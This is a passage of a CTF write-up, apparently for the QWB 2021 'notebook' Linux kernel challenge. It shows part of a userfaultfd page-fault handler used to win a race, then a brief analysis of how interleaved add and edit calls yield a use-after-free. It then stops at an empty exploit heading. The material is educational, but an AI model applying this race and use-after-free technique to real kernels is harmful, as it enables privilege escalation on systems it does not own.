 ```c
    }
    nready = read(uffd, &msg, sizeof(msg));
    if (nready <= 0)
    {
        Panic("msg err");
    }

    char* page = (char*) mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (page == MAP_FAILED)
    {
        Panic("[-] mmap err");
    }
    struct uffdio_copy uc;
    // init page
    memset(page, 0, sizeof(page));
    uc.src = (unsigned long) page;
    uc.dst = (unsigned long) msg.arg.pagefault.address & ~(PAGE_SIZE - 1);
    uc.len = PAGE_SIZE;
    uc.mode = 0;
    uc.copy = 0;
    ioctl(uffd, UFFDIO_COPY, &uc);
    return NULL;
}
// char *example = mmap(NULL,0x1000,0x6,0x22,-1,0);
// RegisterUserfault(example,userfaultfd_leak_handler);
```

Due to lack understanding of this this exploitation, I only write down the gist of exp and you can get more detailed passage on this [link][2]

# 0x02 Analysis

[attachment][3]

The vulnerability is about the sycronization. Although there are some syncronization mechanisms, there is only `read_lock` in `add` and `edit` so that the size could be rewrite after free. 

1. Assume there are two steps in `add`(A:getsize & B:allocate) and two steps in `edit`(A:getsize & B:reallocate).
2. There are 6 different conditions could happen if these steps happent in different order
3. (1A1B2A2B),(1A2A1B2B),(1A2A2B1B),(reversed ones...)

There is a simple UAF if the steps happen in the following order:
1. edit(0) -> A
2. add(x) ->A & B
3. edit(0) -> B



# 0x03 Exploit


[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/userfaultfd/
[3]: https://github.com/n132/attachment/tree/main/QWB_2021_Qual/notebook